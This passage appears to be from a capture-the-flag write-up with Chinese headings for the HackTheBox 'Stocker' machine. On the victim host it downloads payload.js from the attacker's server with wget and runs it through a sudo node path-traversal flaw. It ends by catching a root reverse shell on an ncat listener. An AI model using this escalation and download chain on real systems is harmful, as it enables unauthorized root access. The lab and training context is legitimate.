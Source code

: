 Victim:

```shell
angoose@stocker:~$ wget 10.10.16.2:8000/payload.js
--2023-06-10 09:53:00--  http://10.10.16.2:8000/payload.js
Connecting to 10.10.16.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 393 [application/javascript]
Saving to: ‘payload.js’

payload.js                              100%[===============================================================================>]     393  --.-KB/s    in 0s

2023-06-10 09:53:01 (24.7 MB/s) - ‘payload.js’ saved [393/393]

angoose@stocker:~$ ls
payload.js  user.txt
```

运行payload：

```shell
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/payload.js
```

拿到root权限：

```shell
[2023- 6-10 17:51:08 CST] Fanxiaoyao htb/Stocker
🔍🤡 -> ncat -lvnp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.11.196.
Ncat: Connection from 10.10.11.196:40370.
whoami
root
```

